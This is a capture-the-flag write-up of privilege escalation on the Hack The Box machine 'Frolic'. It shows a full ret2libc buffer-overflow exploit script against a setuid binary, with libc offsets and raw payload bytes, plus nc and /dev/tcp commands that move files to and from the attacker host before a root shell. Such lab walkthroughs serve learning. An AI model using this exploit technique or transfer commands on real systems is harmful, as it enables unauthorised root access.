 # 15 - PrivEsc

# Setuid rop
```bash
www-data@frolic:/home/ayush/.binary$ ./rop  $(python -c 'print "A"');echo
[+] Message sent: A
www-data@frolic:/home/ayush/.binary$ ./rop  $(python -c 'print "A"*80')
Segmentation fault (core dumped)
```

/home/ayush/.binary/rop is a 32 bit setuid binary. I think it is straightforward. This is the path going to root. 

`rop` prints back the input given as argument. On the second go we see that the program crashes with larger inputs. Let's move the binary to our box for examining as we have more tools at our disposal.

# File Transfer
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ nc -lvp 4444 > rop #  Receiver
listening on [any] 4444 ...
connect to [10.10.14.7] from forlic.htb [10.10.10.111] 35726 


www-data@frolic:/home/ayush/.binary$ cat rop  > /dev/tcp/10.10.14.7/4444 #  Sender 
```



# ASLR is off
```bash
www-data@frolic:/home/ayush/.binary$ cat /proc/sys/kernel/randomize_va_space
0
```

```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ checksec  ./rop
[*] '/home/user/htb/frolic/privesc/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000
```

NX is enabled that means we can't just execute instructions from the stack. Stack is flagged as non-executable. We will need to look for other places for code execution. Nevertheless, no canary, no aslr, this should be easy for us.


# vuln

![](vx_images/5274308005242.png)


strcpy doesn't care if the buffer is large enough this potentially can ruin the stack, or worse, crash the program.


# Exploit 
```py
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ cat exploit.py 
from pwn import * 
import sys


# libc 
libc = 0xb7e19000

# payload
buff = 'A'* 52
system = libc + 0x3ada0
exit = libc + 0x2e9d0
cmd = libc + 0x15ba0b

payload = buff.encode()+ p32(system) + p32(exit) + p32(cmd)
print(payload)
```

buffer is 48 byte long, there is still 4 byte below the return address (ebp) and that adds up to 52 to overwrite the return address.
libc will be dynamically loaded. We can just ask ldd for the address.


# libc address
```bash
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
        /lib/ld-linux.so.2 (0xb7fdb000)
```
0xb7e19000 is the address libc will be loaded at every time ``rop`` is run. (to be more precise, libc will be mapped to that virtual address space, it's loaded in memory already there is no need to reload libc)


# System offset 
```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system@@
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

We want to return2libc for arbitrary code execution, it's safer and easier.

# Exit
```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit@@
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0

```

After system returns, we want to exit the program without crashing it.

# CMD address
```bash
www-data@frolic:/home/ayush/.binary$ strings -atx /lib/i386-linux-gnu/libc.so.6  | grep  bin/sh
 15ba0b /bin/sh
```
/bin/sh is the argument to "system" and it's already in libc.

# Send the payload to the box
```bash
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ python3 exploit.py 
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0=\xe5\xb7\xd0y\xe4\xb7\x0bJ\xf7\xb7'
┌─[user@parrot]─[10.10.14.7]─[~/htb/frolic/privesc]
└──╼ $ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0=\xe5\xb7\xd0y\xe4\xb7\x0bJ\xf7\xb7' > /dev/tcp/10.10.10.111/4444
```

# Root
```bash
www-data@frolic:/home/ayush/.binary$ nc -lvp 4444 > /dev/shm/payload
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [10.10.14.7] port 4444 [tcp/*] accepted (family 2, sport 59336)
www-data@frolic:/home/ayush/.binary$ ./rop $(cat /dev/shm/payload)
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```